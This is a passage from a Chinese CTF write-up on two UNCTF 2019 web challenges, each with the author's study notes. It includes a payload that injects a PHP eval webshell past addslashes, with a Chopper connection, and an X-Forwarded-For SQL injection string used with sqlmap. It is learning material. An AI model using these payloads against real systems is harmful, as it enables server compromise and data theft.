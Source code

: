 获得了自己的沙箱地址，再次访问，好像出了PHP代码：

```php
<?php
$str = addslashes($_GET['content']);
$file = file_get_contents('content.php');
$file = preg_replace('|\$content=\'.*\';|', "\$content='$str';", $file);
file_put_contents('content.php', $file);
highlight_file(__FILE__);
?> 
```

主要是"addslashes()"的过滤，构造Payload为："content=aaa\\';@eval($_POST[x]);//"，绕过。然后用菜刀连接，获得flag。

## 备注

1. 首先是"addslashes()"的绕过，还是不太明白。
2. 其次PHP的数组索引可以不用加引号。
3. 最后题解说使用菜刀连接就可以找到flag文件，不过为没有菜刀，手动遍历了目录也没有找到flag文件，头痛。

# unctf_Simple_Calc_1

## 题目描述

有两个提示：

> Hint1:XFF伪造
>
> Hint2:用 SQLMAP 到处跑跑试试- -？

打开页面真的是个计算器：

![屏幕截图 2019-10-27 12:47:24](../assets/2019-10-20-UNCTF-Web/屏幕截图 2019-10-27 12:47:24.png)

## 解题思路

点击右上角的"信息"，可以发现使用计算机的次数被记录了。

![屏幕截图 2019-11-13 19:20:05](../assets/2019-10-20-UNCTF-Web/屏幕截图 2019-11-13 19:20:05.png)

猜测可能是服务器记录了我的IP的访问次数，结合提示，这是一个XFF的SQL注入。

抓包可以发现，每次刷新页面都会额外产生一个访问"/backend/"的请求，返回的就是使用次数。因为我的Hackbar不能用，直接在Burpsuite中尝试注入。用XFF伪造一个新的IP访问，

![屏幕截图 2019-11-13 19:27:53](../assets/2019-10-20-UNCTF-Web/屏幕截图 2019-11-13 19:27:53.png)

多次访问，确实次数增加了，然后开始注入测试。Payload为：`127.0.0.10' or  '1'='1`时功能正常，结合Sqlmap爆数据库。

## 备注

1. 首先是要准备一个Hackbar。
2. 其次继续学习Sqlmap脚本。
